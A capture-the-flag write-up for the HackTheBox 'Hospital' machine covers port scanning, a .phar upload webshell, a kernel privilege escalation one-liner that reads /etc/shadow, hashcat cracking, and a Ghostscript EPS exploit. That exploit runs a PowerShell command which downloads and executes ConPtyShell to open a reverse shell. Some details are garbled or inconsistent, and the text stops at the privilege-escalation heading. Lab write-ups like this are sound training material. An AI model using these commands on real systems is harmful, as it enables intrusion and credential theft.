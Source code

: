 # Hospital

---

title: "Hsopital"
date: 2023-11-22T11:30:03+00:00
tags: ["web","windows","GhostScript"]
categories: ["hackthebox"]
author: "0x0Pwn"
image: "/HTB/Hospital.png"
comments: false
description: "This is a friendly windows machine that is vulnerable because it presents an outdated version of ports 9255 and 9256 (AChat)."

---

## Room Information

- Room name: Hospital
- Difficulty level: Medium
- Room link: [https://app.hackthebox.com/machines/hospital](https://app.hackthebox.com/machines/hospital)

## Tools Used

- Nmap
- crackmapexec
- msfvenom
- icacls
- smbserver
- smbclient
- searchsploit

## Port Scanning

Other room, other port scan.

```bash
map -p- -sS --open --min-rate 5000 -n -Pn -oG allPorts 10.10.11.241
```

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/1758efdd-566e-417e-b6f2-2af99c2c17f7/1489befa-ff32-48f3-8366-99a5fed8f40d/Untitled.png)

```bash
nmap -p 22,53,88,135,139,389,443,445,464,593,636,1801,2103,2105,2107,2179,3268,3269,3389,5985,6404,6406,6407,6409,6612,6631,8080,9389,21177 -sCV --min-rate 5000-n -Pn -oN filtered 10.10.11.241
```

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/1758efdd-566e-417e-b6f2-2af99c2c17f7/8da65ef8-c9bc-447b-9002-58e9eb3ba05e/Untitled.png)

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/1758efdd-566e-417e-b6f2-2af99c2c17f7/52e6b20b-2891-4cf5-bb0c-c605f580ffe5/Untitled.png)

So the first thing I did as always is to check **smb** ports, ldap, the website and all the subdomains…

## Enumeration

On this machine there was no web page so the only data enumeration I could do was from the smb ports, but I got nothing because even though I was allowed to connect with an anonymous user, I had no permissions to list anything.

The first thing I did was to visit the website and add it to /etc/hosts. After that I could see the main website, which was hosted on port 443 (https) with two different subdomains; DC.hospital.htb and hospital.htb.

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/1758efdd-566e-417e-b6f2-2af99c2c17f7/d45899ef-ae02-4619-80ce-a528b0eb64d4/Untitled.png)

After seeing that these two subdomains led to the same website I tried the typical SQL injection, but nothing worked. So I started to do searches with wfuzz and gobuster of all kinds, and all the time without finding anything relevant.

I left all this aside and continued enumerating the rest of the ports, I tried everything; with the rdp port (without credentials I could not do anything), the rcp port (same as above), ldap and crackmapexec, all failed... 

So going down the nmap scan I saw that there was another web page hosted on port 8080 (http). 

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/1758efdd-566e-417e-b6f2-2af99c2c17f7/5167c0b5-7963-4d35-8325-393149258a59/Untitled.png)

I found myself in front of another login panel in which I tried again the typical SQL injection statements without result, but in this web there was something different, since it allowed to create an account and then log in.

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/1758efdd-566e-417e-b6f2-2af99c2c17f7/75c7adbc-5021-48ef-80e5-aa09b0ba2274/Untitled.png)

I did that and when I logged in it opened a page where I could upload files (the web was programmed in php), so I started to try to upload php files, I tried everything; upload a malicious web.config file, bypass a malicious file in .php by uploading a malicious .htaccess, different double and even triple extensions, also tu inject php shell code to a photo… until when I tried a different php extension called .phar I found an exploit that worked and created a webshell in the browser.

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/1758efdd-566e-417e-b6f2-2af99c2c17f7/ca664311-7fad-4cd8-900a-ee77fc50b415/Untitled.png)

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/1758efdd-566e-417e-b6f2-2af99c2c17f7/8aa09344-ac2f-4b9a-82ad-83b61af42494/Untitled.png)

## Exploiting

I search the version of kernel ande machine, and I found this exploit to escalate privileges:

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;  setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cat /etc/shadow")'
```

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/1758efdd-566e-417e-b6f2-2af99c2c17f7/362ba12c-8e97-4a51-a581-812734fa2018/Untitled.png)

So now I could execute commands on behalf of the user rootasi so I started looking for relevant information, until I found in the /etc/passwd file users like drwilliams and root, then in /etc/shadow I found the hash of the user root and drwilliams. So the next thing I did was to crack the password of root and drwilliams using hascat:

```bash
hashcat -m 1800 -a 0 hash /usr/share/wordlists/rockyou.txt
```

Once I got the password for the drwilliams user I could connect via ssh, it was a linux machine, so I knew I had to connect to a windows one sooner or later.

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/1758efdd-566e-417e-b6f2-2af99c2c17f7/c3b4d01c-2822-4830-a751-30f7692fb93a/Untitled.png)

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/1758efdd-566e-417e-b6f2-2af99c2c17f7/cb30dcb1-fade-4112-9ed8-d3b0d8c06076/Untitled.png)

I set out to search for information like crazy through the system, I became root with the following program -> https://github.com/synacktiv/CVE-2023-35001

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/1758efdd-566e-417e-b6f2-2af99c2c17f7/067e421a-d677-4bcb-ba31-057d70aff863/Untitled.png)

After wasting some time with this I decided to try the credentials in the first web that I found hosted in port 443 as the last option, since it was an email web for doctors and the user that was in the machine was called drwilliams.... And it worked, now I had access to the following internal email website between the doctors:

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/1758efdd-566e-417e-b6f2-2af99c2c17f7/8ad30f2c-dd10-41c0-b515-03fcb3119954/Untitled.png)

So I started to see the emails he sent with the rest of the doctors and I discovered a new user, drbrown, who sent him an email talking about the fact that he had to finish the .eps project since he needed it to put it into production and view it with ScriptGhost.

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/1758efdd-566e-417e-b6f2-2af99c2c17f7/e181c957-9bda-49c4-aefd-25920f69e398/Untitled.png)

I started searching drwilliams system for things related to this but I didn't find anything, so I searched on the internet and found a vulnerability for the ScriptGhost program which consisted of creating a malicious .eps. So that's what I did, I created the malicious script and emailed it to him to see what happened, I listened and got the reverse shell as drbrown on the Windows machine now.

The exploit code:

```bash
python3 CVE_2023_36664_exploit.py -g -p "IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.10.14.192 4444" -x eps
```

## Escalating Privileges
